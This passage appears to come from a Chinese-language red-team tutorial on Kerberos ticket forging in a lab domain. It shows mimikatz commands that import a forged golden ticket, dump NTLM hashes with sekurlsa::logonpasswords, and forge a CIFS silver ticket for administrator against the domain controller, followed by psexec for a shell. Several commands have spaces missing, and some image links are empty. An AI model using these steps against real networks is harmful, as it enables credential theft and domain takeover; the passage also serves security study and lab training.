 可以看到没有任何票证。

 **导入gold.kribi**

    
    
     kerberos::ptt C:\Users\jack\Desktop\gold.kirbi

![](https://gitee.com/fuli009/images/raw/master/public/20210814114532.png)

成功导入administrator票据。

![]()

可以通过事件管理器查看到是以administrator来登录的

![](https://gitee.com/fuli009/images/raw/master/public/20210814114533.png)

# 0x02 银票

如果我们拥有服务的hash，就可以给自己签发任意用户的TGS票据。金票是伪造TGT可用于访问任何Kerberos服务，而银票是伪造TGS，仅限于访问针对特定服务器的任何服务。

这里使用CIFS服务，该服务是windows机器之间的文件共享。

## 2.1 获取sid

    
    
    whoami /user

![]()

## 2.2 导出服务账号的NTLM Hash

    
    
    privilege::Debugsekurlsa::logonpasswords

![](https://gitee.com/fuli009/images/raw/master/public/20210814114534.png)

## 2.3 创建银票

![]()

    
    
    kerberos::golden /domain:redteam.local/sid:S-1-5-21-151877218-3666268517-4145415712/target:DC.redteam.local/service:cifs /rc4:0703759771e4bed877ecd472c95693a5/user:administrator /ptt

![](https://gitee.com/fuli009/images/raw/master/public/20210814114535.png)

psexec获取DC机器cmd

![]()
